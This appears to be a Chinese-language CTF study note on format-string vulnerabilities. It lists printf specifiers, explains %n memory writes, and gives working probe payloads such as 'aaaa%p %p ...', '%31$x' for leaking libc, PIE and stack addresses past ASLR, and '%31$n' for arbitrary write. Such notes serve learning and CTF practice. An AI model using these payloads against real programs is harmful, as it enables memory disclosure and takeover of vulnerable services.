 [pwn学习之格式化字符串及CTF绝大多数的可能利用手法](https://mp.weixin.qq.com/s/fEtsEnr6slY6i20BQXHkrQ)
[Second_BC の BloG | 格式化字符串](https://secondbc.github.io/SecondBC/2023/04/13/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2/)
[CTF 竞赛：从格式化输出函数到完全控制](https://mp.weixin.qq.com/s/1eXd6cBxNVwqjgu-A-KbCw)

- gets() 无限写溢出.\n 时停止
- 可以一次泄露多个目标值 `aaaaaaa,%11$p,%17$p`
- printf的%s只有遇到'\x00'才会停止输出, 通过覆盖泄露地址, 比如 `read(0, buf, 8uLL)` 就输出8个泄露libc地址。

### fmt/format/printf/格式化字符串

https://www.cplusplus.com/reference/cstdio/printf/

在 printf 行下断点,

```sh
tel esp
fmtarg <addr>
-- The index of format argument : 31 ("\%30$p")
输入 %31$p
```

| param | Desc                                                                                                      |
| ----- | --------------------------------------------------------------------------------------------------------- | --- |
| %d    | 十进制 - 输出十进制整数                                                                                   |
| %x    | 十六进制 - 输出十六进制数                                                                                 |
| %s    | 字符串 - 从内存中读取字符串                                                                               |
| %c    | 字符 - 输出字符                                                                                           |
| %p    | 指针 - 指针地址                                                                                           |
| %n    | 四字节 它前面字符长度为`l`, `aaaa%6$n` 四字节对齐，它前面是 aaaa 长度为`l:4`, 即对第 6 偏移地址写入数值 4 |     |
|       | %?$n 向栈内第?个指向的 地址处写入字符串长度。                                                             |
|       | 比如栈内第 2 个值为 0x40056a, %85c%2$n，就是向地址 0x40056a 写入 85                                       |
| %hhn  | 输出一个字节                                                                                              |
| %hn   | 输出一个双字节                                                                                            |

aaaa%p %p %p %p %p %p %p %p %p %p %p %p %p
aaaa%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
x64: aaaa%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x

[64 位格式化字符串漏洞修改 got 表利用详解](https://www.anquanke.com/post/id/194458?display=mobile)

aaaa%p %p %p %p %p %p %p(第 7 个)
aaaa0x8048 2 3 4 5 6 0x41414141
%p.%p.%p.%p.%p.%p.%p.%p.%p

%p 是 0x8048000
%x 是 8048000

'%31$x' 任意读 -> leak libc, PIE, Heap, Stack: bypass ASLR
'%31$n' 任意写

